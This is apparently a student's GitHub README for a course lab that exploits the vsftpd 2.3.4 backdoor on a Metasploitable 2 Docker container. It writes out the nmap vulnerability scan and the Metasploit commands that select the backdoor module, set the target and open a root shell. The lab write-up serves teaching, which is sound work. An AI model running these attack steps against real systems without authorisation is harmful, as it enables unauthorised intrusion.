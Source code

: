 # Penetration-Testing

## Overview
This project, part of the CYB101 course, focuses on penetration testing and exploitation of vulnerable systems. The primary objective of this project was to gain unauthorized access to a deliberately vulnerable system, **Metasploitable 2**, by leveraging a well-known exploit in **vsftpd** on port 21. This project provided hands-on experience in the use of tools such as **nmap** and the **Metasploit Framework**, both of which are essential for penetration testing in the field of cybersecurity.

## Project Goals
The goals of this project were to:
- **Set up and run a Docker image** of the vulnerable system (Metasploitable).
- **Use nmap** to identify open ports and vulnerabilities.
- **Use the Metasploit Framework** to exploit the vsftpd backdoor vulnerability on port 21.
- Demonstrate the exploit by gaining access to the system’s shell and verifying successful penetration.

## Tools Used
- **nmap**: For network scanning and vulnerability detection.
- **Metasploit Framework**: For executing the exploit.
- **Docker**: For running the Metasploitable virtual machine.

## Required Steps
The key steps to complete this project are as follows:

### 1. Run Metasploitable in Docker
```bash
docker start -ai metasploitable
```
This command runs the vulnerable machine inside a Docker container.

### 2. Network Scanning with nmap
Using `nmap`, we scan the system to identify open ports and services. Specifically, we target port 21 to look for vulnerabilities.
```bash
nmap 172.17.0.2 --script vuln -p 21
```
This scan reveals the **vsftpd** vulnerability, a backdoor that allows access to the system through a crafted username.

### 3. Exploit Using Metasploit
Launch **Metasploit** to begin the exploitation process:
```bash
msfconsole
```
Search for the **vsftpd** exploit and configure it:
```bash
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 172.17.0.2
```
Finally, execute the exploit to gain access:
```bash
exploit
```

### 4. Verify Access
Once inside the system, run the following commands to verify access:
```bash
lsb_release -a
ifconfig
```
These commands allow us to confirm that we have access to the Metasploitable system and provide details about the Linux distribution and network settings.

## Results
- **Vulnerability Exploited**: vsftpd backdoor on port 21.
- **Successful Exploit**: Gained root shell access to the Metasploitable machine.
- **Tools Used**: nmap for scanning, Metasploit for exploiting.
